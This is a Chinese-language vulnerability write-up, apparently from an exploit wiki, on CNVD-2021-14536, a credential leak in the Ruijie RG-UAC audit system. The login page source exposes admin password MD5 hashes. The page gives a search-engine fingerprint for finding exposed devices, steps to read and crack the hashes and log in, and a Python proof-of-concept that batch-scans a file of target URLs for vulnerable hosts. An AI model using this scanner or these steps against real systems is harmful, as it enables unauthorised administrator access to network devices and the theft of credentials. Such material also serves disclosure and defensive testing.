

# 锐捷 RG-UAC 账号密码信息泄露 CNVD-2021-14536

## 漏洞描述

锐捷RG-UAC统一上网行为管理审计系统存在账号密码信息泄露,可以间接获取用户账号密码信息登录后台

## 漏洞影响

```
锐捷RG-UAC统一上网行为管理审计系统
```

## 网络测绘

```
title="RG-UAC登录页面"
```

## 漏洞复现

来到登录页面


按F12查看源码,可以发现账号和密码的md5形式


解密md5得到密码后即可登录系统


## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: 锐捷RG-UAC统一上网行为管理审计系统                             \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mFile         >>> ip.txt                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = target_url
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "super_admin" in response.text and "password" in response.text and response.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,F12查看源码获取密码md5值 \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))

def Scan(file_name):
    with open(file_name, "r", encoding='utf8') as scan_url:
        for url in scan_url:
            if url[:4] != "http":
                url = "http://" + url
            url = url.strip('\n')
            try:
                POC_1(url)

            except Exception as e:
                print("\033[31m[x] 请求报错 \033[0m".format(e))
                continue

if __name__ == '__main__':
    title()
    file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))
    Scan(file_name)
```



